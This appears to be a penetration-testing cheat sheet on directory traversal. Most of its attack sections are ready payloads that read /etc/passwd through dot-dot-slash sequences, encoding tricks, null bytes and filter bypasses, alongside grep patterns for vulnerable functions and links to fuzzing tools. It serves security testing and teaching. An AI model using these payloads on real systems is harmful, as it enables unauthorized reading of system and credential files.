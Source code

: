 # Directory Traversal

> Directory Traversal aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system.

## Identifying Vulnerability

We can identify this type of vulnerability by inspecting the URL query strings or the body in search of values that reference files. Example:

```bash
.php?file=$FILE
.cgi?home=$FILE
.jsp?item=$FILE
```

Cookies can also be used  by the web application for the dynamic generation of pages or templates:

```bash
Cookie: ID=d9ccd3f4f9f18cc1:.....TEMPLATE=$TEMPLATE
Cookie: USER=1826cc8f:PSTYLE=$FILE
```
_____

## Exploiting Vulnerability

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

```bash
#Parameter:
.php?file=../../../../etc/passwd
#Cookie:
Cookie: USER=24dedbeef44:PSTYLE=../../../../etc/passwd
```

_____

## Bypass Restrictions

#### Traversal sequences stripped non-recursively:

```bash
.php?page=....//....//....//etc/passwd
.php?page=....\/....\/....\/etc/passwd
.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

#### Null byte (%00):

Bypass the append more chars at the end of the provided string (bypass of: $_GET['param']."php"):

```bash
.php?page=../../../etc/passwd%00
```
**Note:** Solved since PHP 5.4

#### Encoding:

You could use non-standard encondings like double URL encode (and others):

```bash
.php?page=..%252f..%252f..%252fetc%252fpasswd
.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
.php?page=%252e%252e%252fetc%252fpasswd
.php?page=%252e%252e%252fetc%252fpasswd%00
```
#### From existent folder:

Maybe the back-end is checking the folder path:

```bash
.php?page=utils/scripts/../../../../../etc/passwd
```

#### Filter bypass tricks:

```bash
.php?page=....//....//etc/passwd
.php?page=..///////..////..//////etc/passwd
.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
.php?page=/var/www/../../etc/passwd
```

_____

## Gray-Box Testing

Since gray box testing allows review of the source code, it is possible to search the input vectors more easily and accurately. Use simple tools (such as the grep command) to search for one or more common patterns within the application code: inclusion functions/methods, filesystem operations, and so on.

**Vulnerable functions:**

```bash
PHP: include(), include_once(), require(), require_once(), fopen(), readfile(), ...
JSP/Servlet: java.io.File(), java.io.FileReader(), ...
ASP: include file, include virtual, ...
```

```bash
PHP Regex: (include|require)(_once)?\s*['"(]?\s*\$_(GET|POST|COOKIE)
```


## Tools

 [DotDotPwn - The Directory Traversal Fuzzer](https://github.com/wireghoul/dotdotpwn)
 
 [Sqlmap just for LFI/RFI bugs instead of sql injection](https://github.com/kurobeats/fimap)
 
 ## Wordlists
 
 [Path Traversal Fuzz Strings (from WFuzz Tool)](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/Traversal.txt)
 
 [More Traversal Strings](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)
 
